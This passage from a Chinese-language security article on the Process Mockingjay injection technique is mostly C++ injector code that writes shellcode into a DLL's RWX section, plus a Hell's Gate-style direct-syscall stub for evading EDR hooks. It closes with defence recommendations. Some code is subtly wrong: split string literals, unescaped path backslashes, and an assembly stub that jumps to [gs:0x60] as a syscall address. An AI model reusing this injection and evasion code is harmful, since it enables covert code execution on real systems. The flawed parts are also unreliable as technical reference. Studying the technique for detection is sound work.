        std::wcout << L"[*] 恢复目标进程..." << std::endl;

        // 恢复主线程
        ResumeThread(pi.hThread);

        // 等待shellcode执行
        DWORD waitResult = WaitForSingleObject(hThread, 5000);
        if (waitResult == WAIT_TIMEOUT) {
            std::wcout << L"[!] 线程执行超时" << std::endl;
        }
        else {
            std::wcout << L"[+] 线程执行完成" << std::endl;
        }

        CloseHandle(hThread);
        return true;
    }

    // 清理资源
    void Cleanup() {
        if (hTargetProcess) {
            CloseHandle(hTargetProcess);
            hTargetProcess = nullptr;
        }

        if (pi.hProcess) {
            TerminateProcess(pi.hProcess, 0);
            CloseHandle(pi.hProcess);
        }

        if (pi.hThread) {
            CloseHandle(pi.hThread);
        }
    }

    // 主执行函数
    bool Execute() {
        std::wcout << L" Process Mockingjay 注入器启动！" << std::endl;
        std::wcout << L"========================================" << std::endl;

        // 执行所有步骤
        if (!AnalyzeDLL()) return false;
        if (!CreateTargetProcess()) { Cleanup(); return false; }
        if (!OpenTargetProcess()) { Cleanup(); return false; }
        if (!LocateRWXSection()) { Cleanup(); return false; }
        if (!InjectShellcode()) { Cleanup(); return false; }
        if (!TriggerExecution()) { Cleanup(); return false; }

        std::wcout << L"
 注入完成！应该会看到计算器弹出。" << std::endl;

        Sleep(3000);  // 等待观察结果
        Cleanup();
        return true;
    }
};

// 环境检查
bool CheckEnvironment() {
    std::wcout << L"
=== 环境检查 ===" << std::endl;

    // 检查DLL是否存在
    std::wstring dllPath = L"C:\Program Files\Microsoft Visual Studio\2022\Community\Common7\IDE\CommonExtensions\Microsoft\TeamFoundation\Team Explorer\Git\usr\bin\msys-2.0.dll";

    DWORD attributes = GetFileAttributesW(dllPath.c_str());
    if (attributes == INVALID_FILE_ATTRIBUTES) {
        std::wcout << L" 未找到目标DLL文件" << std::endl;
        std::wcout << L"   请安装 Visual Studio 2022 Community" << std::endl;
        std::wcout << L"   预期路径: " << dllPath << std::endl;
        return false;
    }

    std::wcout << L" 找到目标DLL文件" << std::endl;
    return true;
}

// 权限检查
bool CheckPrivileges() {
    HANDLE hToken;
    TOKEN_ELEVATION elevation;
    DWORD size;

    if (!OpenProcessToken(GetCurrentProcess(), TOKEN_QUERY, &hToken)) {
        std::wcout << L" 无法检查权限" << std::endl;
        return false;
    }

    if (!GetTokenInformation(hToken, TokenElevation, &elevation, sizeof(elevation), &size)) {
        std::wcout << L" 无法获取权限信息" << std::endl;
        CloseHandle(hToken);
        return false;
    }

    CloseHandle(hToken);

    if (!elevation.TokenIsElevated) {
        std::wcout << L" 需要管理员权限" << std::endl;
        std::wcout << L"   请右键程序，选择"以管理员身份运行"" << std::endl;
        return false;
    }

    std::wcout << L" 管理员权限检查通过" << std::endl;
    return true;
}

// 主函数
int main() {
    // 设置控制台编码
    SetConsoleOutputCP(CP_UTF8);
    std::wcout << L"  Process Mockingjay 注入演示程序" << std::endl;

    // 环境检查
    if (!CheckPrivileges() || !CheckEnvironment()) {
        std::wcout << L"
按任意键退出..." << std::endl;
        system("pause");
        return 1;
    }

    std::wcout << L"
 环境检查完成，开始注入..." << std::endl;

    // 执行注入
    MockingjayInjector injector;
    bool success = injector.Execute();

    if (success) {
        std::wcout << L"你已经学会了Process Mockingjay技术的基本原理。" << std::endl;
    }
    else {
        std::wcout << L"请检查环境配置或以管理员权限重试。" << std::endl;
    }

    std::wcout << L"
按任意键退出..." << std::endl;
    system("pause");
    return success ? 0 : 1;
}


```

**技术特点**  
目标选择灵活：可选择多种依赖目标DLL的进程  
触发机制自然：依靠目标进程正常执行流程  
API调用最少：仅需基础进程操作API  
**应用场景**  
适用于需要在特定进程中执行代码的场景，如权限提升、持久化驻留等

### 4.4 攻击路径三：系统调用嫁接（Syscall Hijacking）

**技术原理**  
系统调用嫁接通过Hell's Gate技术从磁盘加载干净的NTDLL副本，提取原始系统调用号，在RWX段中构建未被钩子污染的系统调用路径。该技术能够在内核层面规避检测  
**核心实现机制**

```
// 步骤1：加载干净NTDLL
HMODULE hCleanNtdll = LoadCleanNtdll();

// 步骤2：提取系统调用号
DWORD ntAllocSyscall = ExtractSyscallNumber(hCleanNtdll, "NtAllocateVirtualMemory");
DWORD ntWriteSyscall = ExtractSyscallNumber(hCleanNtdll, "NtWriteVirtualMemory");

// 步骤3：构建系统调用存根
SYSCALL_STUB stub = {
.mov_r10_rcx = {0x4C, 0x8B, 0xD1},  // mov r10, rcx
.mov_eax = 0xB8,                     // mov eax,
.syscall_number = ntAllocSyscall,    // 系统调用号
.jmp = {0x0F, 0x05}                  // syscall
};

```

**汇编级实现**

```
; 动态系统调用存根
mov r10, rcx
mov eax, [动态SSN]
jmp [gs:0x60] ; 原始KiSystemCall地址
```

**技术特点**  
绕过能力最强：直接调用内核，绕过用户态所有钩子  
隐蔽性深度：在内核层面规避检测  
技术复杂度高：需要深入理解系统调用机制  
**应用场景**  
主要用于高级APT攻击中的深度隐藏和反沙箱分析。

## 5.安全影响与防御建议

Mockingjay技术的发现凸显了现代EDR解决方案在检测和防止进程注入方面的潜在盲点。这种技术的威胁在于它能够完全绕过当前的用户模式钩子，允许攻击者在不触发安全警报的情况下执行恶意代码。  
针对这种威胁，安全专家提出了以下防御建议：

1. 监控由可疑或不常见进程启动的GNU工具(如ssh.exe)
2. 关注从诸如ssh.exe等GNU工具到非标准端口的网络连接
3. 维护具有RWX段特性的DLL数据库，并识别任何非法进程的加载尝试
4. 采用基于声誉的系统来为DLL分配信任级别，考虑DLL的来源、数字证书、历史行为以及其段的特性
5. 为关键系统实施更严格的应用程序白名单策略

## 6.参考

<https://www.securityjoes.com/post/process-mockingjay-echoing-rwx-in-userland-to-achieve-code-execution>
